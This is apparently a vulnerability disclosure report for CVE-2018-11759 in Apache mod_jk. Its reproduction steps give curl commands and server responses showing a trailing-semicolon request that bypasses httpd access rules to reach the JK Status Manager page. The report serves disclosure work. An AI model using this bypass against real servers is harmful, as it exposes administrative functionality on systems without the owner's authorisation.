
# Apache mod_jk Access Control Bypass Vulnerability (CVE-2018-11759)

## Summary

The Apache Web Server (httpd) specific code that normalised the requested path before matching it to the URI-worker map in Apache Tomcat JK (mod_jk) Connector 1.2.0 to 1.2.44 did not handle some edge cases correctly. If only a sub-set of the URLs supported by Tomcat were exposed via httpd, then it was possible for a specially constructed request to expose application functionality through the reverse proxy.

## Steps To Reproduce

``curl -k https://$DOMAIN/jkstatus``

Response:

```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /jkstatus
on this server.</p>
</body></html>

```

Now, let's bypass the restriction using a semicolon at the end:

``curl -iLks "https://$DOMAIN/jkstatus;"``

And we get:

```HTTP/1.1 200 OK
Date: Fri, 02 Oct 2020 06:30:45 GMT
Server: Apache
Cache-Control: no-cache
Pragma: no-cache
Transfer-Encoding: chunked
Content-Type: text/html

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en"><head><title>JK Status Manager</title></head>
<body>
<h1>JK Status Manager for XXXX:443</h1>

```
The result is truncated. 

Screenshots are attached describing the page obtained. 

## Impact

Affects confidentiality, integrity, and availability. 


### Supporting Material/References

[CVE Details](https://www.cvedetails.com/cve/CVE-2018-11759/)
[POC Github](https://github.com/immunIT/CVE-2018-11759)
